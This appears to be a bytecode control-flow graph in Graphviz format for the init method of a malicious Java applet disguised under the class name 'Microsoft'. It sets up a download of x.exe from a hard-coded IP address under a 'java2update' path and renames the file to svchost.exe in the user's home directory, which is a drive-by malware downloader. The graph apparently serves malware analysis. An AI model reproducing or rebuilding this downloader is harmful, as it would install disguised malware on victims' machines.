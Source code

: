 digraph "" {
    "r0 := @this: Microsoft"
    "load.r r0"
    "r0 := @this: Microsoft"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "virtualinvoke <Microsoft: java.net.URL getDocumentBase()>"
    "load.r r0"->"virtualinvoke <Microsoft: java.net.URL getDocumentBase()>";
    "push \"http://64.62.181.43/java2update/bg.png\""
    "virtualinvoke <Microsoft: java.net.URL getDocumentBase()>"->"push \"http://64.62.181.43/java2update/bg.png\"";
    "virtualinvoke <Microsoft: java.awt.Image getImage(java.net.URL,java.lang.String)>"
    "push \"http://64.62.181.43/java2update/bg.png\""->"virtualinvoke <Microsoft: java.awt.Image getImage(java.net.URL,java.lang.String)>";
    "fieldput <Microsoft: java.awt.Image image>"
    "virtualinvoke <Microsoft: java.awt.Image getImage(java.net.URL,java.lang.String)>"->"fieldput <Microsoft: java.awt.Image image>";
    "fieldput <Microsoft: java.awt.Image image>"->"load.r r0";
    "push \"http://64.62.181.43/java2update/x.exe\""
    "load.r r0"->"push \"http://64.62.181.43/java2update/x.exe\"";
    "fieldput <Microsoft: java.lang.String downloadLocation>"
    "push \"http://64.62.181.43/java2update/x.exe\""->"fieldput <Microsoft: java.lang.String downloadLocation>";
    "fieldput <Microsoft: java.lang.String downloadLocation>"->"load.r r0";
    "push \"svchost.exe\""
    "load.r r0"->"push \"svchost.exe\"";
    "fieldput <Microsoft: java.lang.String renameTo>"
    "push \"svchost.exe\""->"fieldput <Microsoft: java.lang.String renameTo>";
    "fieldput <Microsoft: java.lang.String renameTo>"->"load.r r0";
    "new java.lang.StringBuilder"
    "load.r r0"->"new java.lang.StringBuilder";
    "dup1.r"
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"user.home\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"user.home\"";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"
    "push \"user.home\""->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"file.separator\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"file.separator\"";
    "push \"file.separator\""->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "fieldput <Microsoft: java.lang.String downloadTo>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"fieldput <Microsoft: java.lang.String downloadTo>";
    "fieldput <Microsoft: java.lang.String downloadTo>"->"load.r r0";
    "push 0"
    "load.r r0"->"push 0";
    "fieldput <Microsoft: boolean deleteAfterExecute>"
    "push 0"->"fieldput <Microsoft: boolean deleteAfterExecute>";
    "return"
    "fieldput <Microsoft: boolean deleteAfterExecute>"->"return";
}
